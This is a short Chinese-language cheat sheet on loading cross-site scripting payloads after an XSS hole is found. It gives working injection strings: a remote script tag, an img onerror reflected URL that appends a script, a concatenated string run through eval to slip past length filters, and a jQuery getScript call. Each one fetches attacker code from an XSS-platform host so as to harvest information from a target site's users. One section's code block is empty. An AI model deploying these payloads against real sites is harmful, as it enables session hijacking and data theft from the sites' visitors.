

当我们在测试xss漏洞的时候，一般都是用h1 alert 简单的html标签 样式是否改变 是否弹出框，来检验是否存在xss漏洞。

当在利用这个xss漏洞获取信息的时候，就要加载payload，加载payload的方法多种多样，以下是常用的加载技巧。

有一些 xss平台已经有一些通用的方法。直接拿到用就可以了。

 

 

## 1、标准script加载

```php
<script src=http://www.xsstools.com/amER></script>
<script src=//www.xsstools.com/amER></script> 
```

## 2、img 创建script加载

```php

```

反射性

```
http://target_sys.com/xss/xss01.php?name=%3Cimg%20src=x%20onerror=document.body.appendChild(document.createElement(%27script%27)).src=%27//www.xsstools.com/amER%27%3E 
```

## 3、字符并接

这种一般是输入的字符有限制的时候使用

```php
<script>z='document.'</script>
<script>z=z+'write("'</script>
<script>z=z+'<script'</script>
<script>z=z+' src=ht'</script>
<script>z=z+'tp://www.'</script>
<script>z=z+'xsstools'</script>
<script>z=z+'.com/a'</script>
<script>z=z+'mER></sc'</script>
<script>z=z+'ript>")'</script>
<script>eval(z)</script>
```

## 4、jquery加载

```html
<script src="http://code.jquery.com/jquery-1.9.1.min.js"></script>
```


```php
<script>$.getScript("//www.xsstools.com/amER");</script>
```

